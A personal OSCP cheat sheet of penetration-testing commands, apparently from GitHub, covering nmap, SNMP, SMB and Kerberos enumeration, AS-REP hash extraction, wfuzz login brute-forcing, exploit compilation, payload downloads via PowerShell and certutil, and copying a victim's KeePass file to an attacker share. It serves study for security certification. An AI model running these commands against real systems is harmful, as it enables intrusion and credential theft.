# oscp-notes

here is a collection of commands i often use for penetration testing. i know there are hundreds of OSCP command guides/references, this is mostly for personal use and therefore the explanations for each command will be as fleshed out as i need them to be. also bear in mind that this is not a complete list.

note: sometimes i will use "ip-addr" to indicate where a target ip should go, sometimes 10.xx.xx.xx, etc
some of these commands i gleaned from working within the HTB labs, not just pwk lab work.

######enumeration

**service and safe scripts scan of an ip/network range**

-oN saves the output in nmap formatting (-oA saves output in xml/nmap/grep format)

`nmap -sC -sV ip-addr -oN '/root/Documents/[ip-addr]/initial.nmap'`

**udp scan**

`nmap -sU ip-addr`

**full port scan**

`nmap -p- ip-addr`

**OS fingerprint** 

`nmap -O ip-addr`

**snmp enumeration**

`nmap -sU -p 161 --script=snmp-brute -Pn 10.xx.x.xxx --script-args snmp-brute.communitiesdb=common-snmp-community-strings.txt`

**snmpwalk**

`snmpwalk 10.xx.x.xxx:161 -v 1 -c public`

**snmpwalk open tcp ports**

`snmpwalk -c public -v1 10.xx.x.xxx 1.3.6.1.2.1.6.13.1.3 `

**snmpwalk windows processes**

`snmpwalk -c public -v1 10.11.1.128 1.3.6.1.2.1.25.4.2.1.2`

**gobuster using default wordlist and scanning for specific statuses**

`gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.xx.xx.xx:8080/ -s '200,204,301,302,307,403,500' -o gobuster-common.txt`

**gobuster -- fuzzing for file (vs. dir)**

`gobuster -u http://10.xx.xx.xx -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx -o gobuster-default-aspx.txt`

**gobuster ignore ssl cert**

`gobuster -k`

**wordpress?**

`wpscan -u ip-addr`

**nikto**

`nikto -h ip-addr -output output.txt`

**various methods of enumerating smb shares/servers**

`nmblookup -A 10.xx.xx.xx`

`enum4linux -A 10.xx.xx.xx`

note: enum4linux is finnicky on the pwk vm

**smbclient**

-L | list  -I | ip-address  -N | no-pass

`smbclient -L \\SERVER -I xx.xx.xx.xx -N`

`smbclient //SERVER/share -I xx.xx.xx.xx -N`

**enum kerberos users**

`nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='CHANGEME.local',userdb=/usr/share/seclists/Usernames/Names/names.txt -oA '/root/Documents/10.xx.xx.xx_88_kerberos' 10.xx.xx.xx`

**obtain hash from kerberos user**

cd /opt/impacket/examples

`python GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -format hashcat -outputfile hashes.forest`

**wfuzz bruteforce http login**

observe the POST request in Burp,  plug in the user and password DOM elemenets into the commmand; here the user login is defined by user_login, and the password is defined as pass

we run it first without specifying a character count to ignore, and once we see what the failed login character count is, we ignore that (--hh), so that any different character count that occurs indicates a successful login (or, something that isn't a failed login)

`wfuzz -z file,/usr/share/wordlists/rockyou.txt -d "user_login=admin&pass=FUZZ" --hh 9471 http://10.xx.xx.xx/admin.php`

**wfuzz fuzz**

wfuzz --hc 404 -c -z file,/usr/share/wfuzz/wordlist/general/big.txt http://10.xx.x.xxx/webmail/src/FUZZ.php

###### exploitation

**compile for centos on kali**

(unsure if this is applicable just for centos or other distros)

`gcc -Wl,--hash-style=both -m32 -o exploit 9545.c`

**compile windows exe on linux**

`i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe`

**windows file download**

if system is recent enough/powershell is installed:

`powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.xx.xx.xx/afd.exe','c:\wamp\tmp\afd.exe')`

if certutil is available:

`certutil.exe -urlcache -split -f "http://10.xx.xx.xx/afd.exe" c:\wamp\temp\afd.exe`

if neither is an option, echo this script into a new file:

[https://github.com/foxed/oscp-notes/blob/add-notes/scripts/wget.vbs]

**transferring files from windows target to kali**

if smb is enabled on the victim machine, we can use impacket's smbserver.py

On kali:

cd /opt/impacket/examples

`./smbserver Heyo `pwd` `

here we start up a share called 'Heyo'

you need to use tickmarks with the pwd. note that the names "Heyo" and "Neigh" are completely arbitrary.

on windows (our target/victim):

`New-PSDrive -Name "Neigh" -PSProvider "FileSystem" -Root "\\my.kali.ip\Heyo" `

`cd Neigh`

`PS Neigh:\> cp C:\Users\victim\Documents\CEH.kdbx .`

